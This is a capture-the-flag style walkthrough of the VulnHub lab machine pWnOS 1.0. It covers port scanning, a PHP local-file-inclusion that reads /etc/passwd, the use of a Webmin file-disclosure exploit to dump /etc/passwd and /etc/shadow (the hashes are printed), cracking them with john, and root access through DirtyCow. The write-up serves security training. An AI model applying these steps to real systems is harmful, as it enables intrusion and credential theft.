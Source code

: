 ```yaml
---
layout: post
title:  "pWnOS: 1.0"
date:   2021-1-21  +0400
categories: vulnhub pwnos1
description: "This is the first machine of the pWnOS series. This machine is ranked as easy, but took loads of effort to pwn. Hope you enjoy it!"
---
```


<span style="text-decoration: underline">Box Stats:</span>

| Name: | pWnOS: 1.0 |
|-------|--------|
| Series: | [pWnOS](https://www.vulnhub.com/series/pwnos,3/) |
| Link: | [pWnOS: 1.0](https://www.vulnhub.com/entry/pwnos-10,33/) |
| OS: | Linux - Ubuntu 2.6.32 |
| Creator: | [pwnos](https://www.vulnhub.com/author/pwnos,6/) |


## Topics: ##
- LFI
- PHP enumeration
- Hash Cracking
- Privilige Escalation

## Recon ##
Start your scans and gather your results!
```
22/tcp    open  ssh         OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
| ssh-hostkey: 
|   1024 e4:46:40:bf:e6:29:ac:c6:00:e2:b2:a3:e1:50:90:3c (DSA)
|_  2048 10:cc:35:45:8e:f2:7a:a1:cc:db:a0:e8:bf:c7:73:3d (RSA)
80/tcp    open  http        Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
|_http-server-header: Apache/2.2.4 (Ubuntu) PHP/5.2.3-1ubuntu6
|_http-title: Site doesn't have a title (text/html).
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
445/tcp   open  netbios-ssn Samba smbd 3.0.26a (workgroup: MSHOME)
10000/tcp open  http        MiniServ 0.01 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -59m54s, deviation: 4h14m34s, median: -3h59m55s
|_nbstat: NetBIOS name: UBUNTUVM, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.26a)
|   Computer name: ubuntuvm
|   NetBIOS computer name: 
|   Domain name: nsdlab
|   FQDN: ubuntuvm.NSDLAB
|_  System time: 2021-01-11T11:16:24-06:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

## Enumeration ##
We have a couple of ports open that are interesting and can be the potential way inside the machine. We know that `SSH` can be used as a stable connection, so I am guessing there will not be any misconfigurations with that protocol. 

# Port 80 - HTTP ## 
When browsing to the webpage at the IP address, we are greeted with a `pWnOS homepage`. We can click the next button which navigates us to a page that allows us to enter our name and choose our skill. By clicking the `Please Help!` button, we get trolled by the webpage telling us that we suck.

I was unaware of an LFI in this page, however once I deleted the end of the url which was `name=&submit=Please+Help%21` a php error was displayed: ` Warning: include() [function.include]: Failed opening '' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/index1.php on line 18`. From here, we can use the `connect` function and set it to `/etc/passwd` for the LFI. This displays the `/etc/passwd` file:

![/etc/passwd from LFI]()

# Port 139+445 - SMB #
Nothing interesting was found in the file share. The shares were:
```
	Sharename       Type      Comment
	---------       ----      -------
	home            Disk      Home Directory for vmware User
	print$          Disk      Printer Drivers
	IPC$            IPC       IPC Service (ubuntuvm)
```

The `print$, IPC4$` shares had no valuable info, but the `home` share allowed us to view the `vmware` users files. I don't want to spoil the machine, so I will finish enumerating this protocol.

# Port 10000 - Webmin HTTP #
When browsing to the url `http://________:10000/` we are redirected to `/session_login.cgi`. When I first tried enumerating the login field, after a number of tries, I was blocked from the server. After restarting the machine, I started looking for exploits that relate to `Webmin 0.01`. I found an exploit with the CVE of `CVE-2006-3392` at [SecurityFocus](www.securityfocus.com) that can be found [here](http://www.securityfocus.com/bid/18744). It is luckily a metasploit module as well, which makes it easier for us to exploit. We can use it download files from the host (and we have root priviliges too!). I was able to download the `/etc/passwd` and `/etc/shadow` file:

`/etc/passwd` file:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
dhcp:x:100:101::/nonexistent:/bin/false
syslog:x:101:102::/home/syslog:/bin/false
klog:x:102:103::/home/klog:/bin/false
mysql:x:103:107:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
vmware:x:1000:1000:vmware,,,:/home/vmware:/bin/bash
obama:x:1001:1001::/home/obama:/bin/bash
osama:x:1002:1002::/home/osama:/bin/bash
yomama:x:1003:1003::/home/yomama:/bin/bash
```

`/etc/shadow` file:
```
root:$1$LKrO9Q3N$EBgJhPZFHiKXtK0QRqeSm/:14041:0:99999:7:::
daemon:*:14040:0:99999:7:::
bin:*:14040:0:99999:7:::
sys:*:14040:0:99999:7:::
sync:*:14040:0:99999:7:::
games:*:14040:0:99999:7:::
man:*:14040:0:99999:7:::
lp:*:14040:0:99999:7:::
mail:*:14040:0:99999:7:::
news:*:14040:0:99999:7:::
uucp:*:14040:0:99999:7:::
proxy:*:14040:0:99999:7:::
www-data:*:14040:0:99999:7:::
backup:*:14040:0:99999:7:::
list:*:14040:0:99999:7:::
irc:*:14040:0:99999:7:::
gnats:*:14040:0:99999:7:::
nobody:*:14040:0:99999:7:::
dhcp:!:14040:0:99999:7:::
syslog:!:14040:0:99999:7:::
klog:!:14040:0:99999:7:::
mysql:!:14040:0:99999:7:::
sshd:!:14040:0:99999:7:::
vmware:$1$7nwi9F/D$AkdCcO2UfsCOM0IC8BYBb/:14042:0:99999:7:::
obama:$1$hvDHcCfx$pj78hUduionhij9q9JrtA0:14041:0:99999:7:::
osama:$1$Kqiv9qBp$eJg2uGCrOHoXGq0h5ehwe.:14041:0:99999:7:::
yomama:$1$tI4FJ.kP$wgDmweY9SAzJZYqW76oDA.:14041:0:99999:7:::
```

We can use the `unshadow` tool to create a file with the combined data of the `/etc/passwd` and the `/etc/shadow` file to create one file with the usernames and password details. The usage is simple: `sudo unshadow PASSWORD-FILE SHADOW-FILE`. This will give us the output of:
```
root:$1$LKrO9Q3N$EBgJhPZFHiKXtK0QRqeSm/:0:0:root:/root:/bin/bash
daemon:*:1:1:daemon:/usr/sbin:/bin/sh
bin:*:2:2:bin:/bin:/bin/sh
sys:*:3:3:sys:/dev:/bin/sh
sync:*:4:65534:sync:/bin:/bin/sync
games:*:5:60:games:/usr/games:/bin/sh
man:*:6:12:man:/var/cache/man:/bin/sh
lp:*:7:7:lp:/var/spool/lpd:/bin/sh
mail:*:8:8:mail:/var/mail:/bin/sh
news:*:9:9:news:/var/spool/news:/bin/sh
uucp:*:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:*:13:13:proxy:/bin:/bin/sh
www-data:*:33:33:www-data:/var/www:/bin/sh
backup:*:34:34:backup:/var/backups:/bin/sh
list:*:38:38:Mailing List Manager:/var/list:/bin/sh
irc:*:39:39:ircd:/var/run/ircd:/bin/sh
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:*:65534:65534:nobody:/nonexistent:/bin/sh
dhcp:!:100:101::/nonexistent:/bin/false
syslog:!:101:102::/home/syslog:/bin/false
klog:!:102:103::/home/klog:/bin/false
mysql:!:103:107:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:!:104:65534::/var/run/sshd:/usr/sbin/nologin
vmware:$1$7nwi9F/D$AkdCcO2UfsCOM0IC8BYBb/:1000:1000:vmware,,,:/home/vmware:/bin/bash
obama:$1$hvDHcCfx$pj78hUduionhij9q9JrtA0:1001:1001::/home/obama:/bin/bash
osama:$1$Kqiv9qBp$eJg2uGCrOHoXGq0h5ehwe.:1002:1002::/home/osama:/bin/bash
yomama:$1$tI4FJ.kP$wgDmweY9SAzJZYqW76oDA.:1003:1003::/home/yomama:/bin/bash
```

## Exploitation ##
We can crack the hashes that we have gathered, I used `john` and the `rockyou.txt` wordlist to crack the hashes. I was able to find the `vmware` user's password which was `h4ckm3`. I used this to login via SSH, but this can also be used to login to the SMB server! From here, we can use the widely-known `DirtyCow` exploit which works on `Linux Kernel 2.6.22 < 3.9`. Compile the exploit using the `gcc -pthread dirty.c -o dirty -lcrypt` command. After following the prompt, the user `firefart` will be added with the password you chose:

```
$ su firefart
Password: password
$ id
uid=0(firefart) gid=0(root) groups=0(root)
```
We have pwned the machine! This machine was easy but took hard work to find LFIs and other issues. The webmin server also issues IP bans which made me restart the machine several times. Thank you for reading this writeup, and see you later! 
